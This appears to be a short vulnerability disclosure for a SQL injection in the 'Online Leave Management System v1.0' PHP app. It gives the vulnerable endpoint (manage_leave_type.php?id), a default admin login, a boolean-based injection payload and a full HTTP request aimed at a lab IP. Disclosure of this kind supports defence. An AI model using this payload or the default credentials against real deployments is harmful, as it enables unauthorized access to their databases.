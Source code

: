 # Online Leave Management System v1.0 by oretnom23 has SQL injection

BUG_Author:

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14910/online-leave-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /leave_system/admin/maintenance/manage_leave_type.php?id

Vulnerability location: /leave_system/admin/maintenance/manage_leave_type.php?id=,id

dbname=leave_db,length=8

[+] Payload:  /leave_system/admin/maintenance/manage_leave_type.php?id=3%27%20and%20length(database())%20=8--+ // Leak place ---> id

```sql
GET /leave_system/admin/maintenance/manage_leave_type.php?id=3%27%20and%20length(database())%20=8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close
```

length=8
![image](https://user-images.githubusercontent.com/54017627/183634367-5312a664-27c1-4eb2-a6e8-65dd4f8e6015.png)


length=9
![image](https://user-images.githubusercontent.com/54017627/183634407-a9643f37-fbb7-4834-b6c4-a7bd7e77bdde.png)

